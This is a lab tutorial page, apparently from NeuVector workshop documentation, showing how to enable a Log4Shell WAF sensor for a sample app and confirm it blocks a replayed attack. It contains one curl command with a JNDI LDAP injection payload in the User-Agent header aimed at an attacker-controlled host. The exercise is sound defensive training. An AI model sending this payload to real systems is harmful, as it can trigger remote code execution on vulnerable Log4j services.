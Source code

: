 +++
title = "Add WAF rule"
weight = 22
+++

NeuVector's deep packet inspection also allow to scan and filter incoming and outgoing traffic with WAF (Web Application Firewall) and DLP (Data Loss Prevention) sensors.

Go to **Policy > WAF Sensors** to see the already pre-configured sensors. Here you can also activate your own. You can find more information at [DLP & WAF Sensors](https://open-docs.neuvector.com/policy/dlp).

To create a WAF rule that blocks the request from even reaching the sample-app

* Go to **Policy > Groups** and choose the `nv.sample-app.default` group.
* Go to the **WAF** tab
* Click on the edit button
* Choose the Log4Shell WAF sensor
* Click apply
* Set the WAF status toggle to **Enabled**

Run the attack again

**Run the following commands on the victim01 VM.**

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

The request will be blocked. You can see a WAF alert under **Notifications > Security Events**.

For further forensics, you can download a package capture PCAP file directly from the alert.

You can now open this file in any tool that supports PCAP files, for example [Wireshark](https://www.wireshark.org/).
